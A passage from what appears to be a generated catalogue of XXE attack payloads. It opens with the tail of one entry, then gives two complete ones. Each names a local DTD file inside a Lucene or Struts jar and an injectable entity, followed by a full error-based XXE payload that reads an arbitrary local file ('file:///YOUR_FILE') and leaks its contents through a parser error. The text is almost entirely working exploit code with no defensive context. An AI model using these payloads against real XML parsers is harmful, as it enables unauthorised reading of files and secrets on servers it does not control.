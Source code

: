 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/4.5.1/lucene-queryparser-4.5.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd`

**Injectable entity:** `%queries`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/4.5.1/lucene-queryparser-4.5.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/struts/struts-core/1.3.10/struts-core-1.3.10.jar!/org/apache/struts/resources/struts-config_1_0.dtd`

**Injectable entity:** `%BeanName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/struts/struts-core/1.3.10/struts-core-1.3.10.jar!/org/apache/struts/resources/struts-config_1_0.dtd">

    <!ENTITY % BeanName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

